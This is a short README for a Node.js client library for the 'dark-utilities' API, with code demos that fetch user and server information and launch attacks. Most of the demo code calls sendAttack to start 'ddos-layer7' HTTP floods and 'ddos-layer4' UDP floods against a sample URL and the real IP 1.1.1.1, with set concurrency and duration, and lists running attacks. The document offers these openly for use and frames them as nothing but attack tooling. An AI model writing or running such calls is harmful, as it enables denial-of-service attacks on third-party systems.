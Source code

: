 # Dark-Utilities API Node-Js
 Description :
   * -> Using the dark-utilities API in node js
   * -> Utilisation de l'API dark-utilities en node js

 ### Dependencies npm :
  * [phin](https://www.npmjs.com/package/phin "lien")

 ### Require :
  * -> [Node-Js](https://www.digitalocean.com/community/tutorials/how-to-install-node-js-on-ubuntu-20-04-fr)
 
### Installation :
  * To use it you need to have dark-utilities and install phin `npm i phin`

### Quick Demos

Get User Information
```js
darkutilities.getUserInfo().then(info => {
    console.log(info);
});
```

Get Server List
```js
darkutilities.getServerList().then(server => {
    console.log(server);
});
```

Get Server Info
```js
darkutilities.getServerInfo('fd06d2f5192fd94341543d15ae8158bb').then(server => {
    console.log(server);
});
```

Send attack ddos-layer7
```js
darkutilities.sendAttack('ddos-layer7', {
    'method': 'GET',
    'target': 'https://exemple.com/hit',
    'concurrents': 100,
    'time': 20
}, [
    { "server_id": "fd06d2f5192fd94341543d15ae8158bb", 'server_selected': true },
]).then(attack => {
    console.log(attack);
});
```

Send attacks ddos-layer4
```js
darkutilities.sendAttack('ddos-layer4', {
    'method': 'UDP',
    'target': '1.1.1.1',
    'port': 80,
    'concurrents': 10,
    'time': 20
}).then(attack => {
    console.log(attack);
});
```

Get Attack List
```js
darkutilities.getAttacks().then(attacks => {
    console.log(attacks);
});
```
